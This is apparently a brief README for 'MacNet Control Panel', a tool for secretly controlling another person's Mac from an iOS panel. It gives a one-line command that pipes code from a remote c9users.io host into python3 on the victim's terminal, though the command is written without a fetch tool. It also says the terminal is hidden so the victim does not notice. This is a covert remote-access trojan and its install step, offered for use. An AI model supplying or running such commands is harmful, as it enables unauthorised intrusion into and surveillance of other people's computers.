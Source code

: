 # MacNet Control Panel 

MacNet is a piece of software that allows you to remotely control someone else's Mac computer using an iOS control panel. To gain control of their computer, all you have to do is type the simple command `https://macnetback-nylr.c9users.io/getc | python3` into their terminal. The program will automatically hide the terminal, and you will have full access.


